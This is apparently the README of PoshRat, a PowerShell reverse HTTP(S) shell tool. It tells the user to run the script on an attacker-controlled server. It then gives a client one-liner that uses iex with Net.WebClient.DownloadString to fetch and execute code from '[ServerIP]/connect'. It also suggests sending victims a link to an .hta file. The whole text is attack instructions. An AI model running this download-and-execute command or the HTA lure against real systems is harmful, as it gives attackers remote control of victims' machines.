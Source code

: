 PoshRat
=======

PowerShell Reverse HTTP(s) Shell

1. Invoke PoshRat.ps1 On An Atacker Controlled Server
2. To Spawn The Reverse Shell Run On Client

   iex (New-Object Net.WebClient).DownloadString("http://[ServerIP]/connect")
3. [OR] Browse to or send link to [serverip]/app.hta

Created By Casey Smith @subTee
